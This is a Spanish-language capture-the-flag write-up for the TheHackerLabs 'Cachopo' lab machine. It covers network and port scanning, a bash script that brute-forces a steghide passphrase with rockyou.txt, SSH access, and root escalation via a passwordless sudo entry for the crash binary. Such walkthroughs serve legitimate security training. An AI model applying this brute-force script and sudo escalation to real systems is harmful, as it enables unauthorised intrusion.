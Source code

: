 ```yaml
---
title: "TheHackerLabs - Avanzado : [Cachopo]"
date: 2024-08-12 13:35:00 +0200
categories: [CTF, Writeups, TheHackerLabs, Linux, Avanzado]
description: "Explora el desafío CTF 'Cachopo', diseñado para usuarios avanzados en un entorno Linux."
tags: [CTF, Writeups, TheHackerLabs, Linux, Avanzado]
image: /img/posts/CTF/cachopo/cachopo.png
---
```


# Writeup: TheHackerLabs - Cachopo

## Introducción

En este writeup exploraremos el desafío **Cachopo**, un CTF avanzado diseñado para usuarios con experiencia en Linux y técnicas de hacking. Este reto ofrece una experiencia inmersiva y desafiante que pondrá a prueba nuestras habilidades de enumeración, análisis forense y explotación de vulnerabilidades en diversos servicios.

---

## 1. Entorno Inicial

**Sistema objetivo:** Máquina Linux simulada en un entorno local.  
**Dirección IP asignada:** Se obtiene mediante herramientas de descubrimiento de red.  

🌐 [**Consiguiendo la IP de la Víctima en CTFs**](/posts/consiguiendo-la-ip-victima-CTF/){:target="_blank"}

**Objetivo:** Identificar servicios vulnerables, explotarlos y capturar la flag final.

---

## 2. Enumeración de la Red

### Identificación de la Máquina Objetivo

Utilizamos `arp-scan` para identificar la dirección IP de la víctima dentro de nuestra red local.

```bash
# arp-scan -I ens36 --localnet
Interface: ens36, type: EN10MB, MAC: 00:0c:29:27:66:15, IPv4: 172.18.0.133
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
172.18.0.1    00:50:56:c0:00:08    VMware, Inc.
172.18.0.2    00:50:56:f0:e7:9f    VMware, Inc.
172.18.0.134  00:0c:29:f3:5c:ae    VMware, Inc.
172.18.0.254  00:50:56:f8:f4:23    VMware, Inc.
```

La dirección IP de la máquina objetivo es **172.18.0.134**.

---

### Escaneo de Puertos con Nmap

Realizamos un escaneo exhaustivo de todos los puertos para identificar servicios activos.

```bash
# nmap -p- --min-rate 2000 -sS -vvv -Pn -oN allports 172.18.0.134
```

**Resultados del Escaneo:**
```bash
Nmap scan report for 172.18.0.134
Host is up, received arp-response (0.00062s latency).
Scanned at 2024-08-11 12:09:28 CEST for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:F3:5C:AE (VMware)
```

Identificamos dos puertos abiertos:
- **22/tcp:** Servicio SSH.
- **80/tcp:** Servidor HTTP.

---

## 3. Análisis del Servidor Web

### Configuración del Host

El análisis inicial reveló que el servidor HTTP redirige a un dominio: `http://cachopo.thl/`. Para acceder correctamente, añadimos el dominio al archivo `/etc/hosts`.

```bash
# echo "172.18.0.134 cachopo.thl" | tee -a /etc/hosts
```

Verificamos la última línea del archivo para confirmar la entrada:

```bash
# tail -n 1 /etc/hosts
172.18.0.134 cachopo.thl
```

---

### Búsqueda de Datos Ocultos con Steghide

El sitio web contenía una imagen sospechosa. Utilizamos **Steghide** para analizarla en busca de datos ocultos.

```bash
# steghide --extract -sf /home/oscar/Descargas/cachopo.jpg
```

Sin embargo, se solicitaba una contraseña. Procedimos a realizar un ataque de fuerza bruta utilizando la lista `rockyou.txt`.

---

### Fuerza Bruta con Rockyou

Creamos un script para probar todas las contraseñas de la lista contra la imagen.

**Script: `cachopo.sh`**
```bash
#!/bin/bash
rockyou="/usr/share/wordlists/rockyou.txt"
jpgfile="/home/oscar/Descargas/cachopo.jpg"
output=""
while IFS= read -r password; do
    output=$(steghide --extract -sf "$jpgfile" -p "$password" 2>&1)
    if [[ $output == *"salvoconducto"* ]]; then
        echo -ne "Probando la contraseña: $password\r"
    else
        echo -e "\n------------------------------------"
        echo -e "\nContraseña encontrada: $password"
        break
    fi
done < "$rockyou"
```

Ejecutamos el script:

```bash
# chmod +x cachopo.sh
# ./cachopo.sh
Probando la contraseña: elisazrch
----------------------------------

Contraseña encontrada: doggies
```

Con la contraseña `doggies`, extraemos los datos ocultos de la imagen.

---

## 4. Escalación de Privilegios

### Conexión SSH

Nos conectamos al servidor usando el servicio SSH:

```bash
# ssh carlos@172.18.0.134
```

---

### Escalación con un Binario Vulnerable

El comando `sudo -l` reveló un binario que podía ejecutarse con privilegios sin contraseña:

```bash
$ sudo -l
User carlos may run the following commands on Cachopo:
    (ALL) NOPASSWD: /usr/bin/crash
```

Usamos este binario para escalar privilegios a root, siguiendo las instrucciones de [GTFOBins](https://gtfobins.github.io/gtfobins/crash/).

---

## 5. Reflexión Final

El desafío **Cachopo** destacó la importancia de la enumeración detallada y el análisis forense en CTFs. Fue un ejercicio excelente para reforzar habilidades en:

- Análisis de redes.
- Uso de herramientas de enumeración.
- Escalación de privilegios mediante binarios vulnerables.

---

**¡Gracias por leer este writeup!** Si tienes preguntas o comentarios, no dudes en contactarme.  
Un saludo,  
Óscar

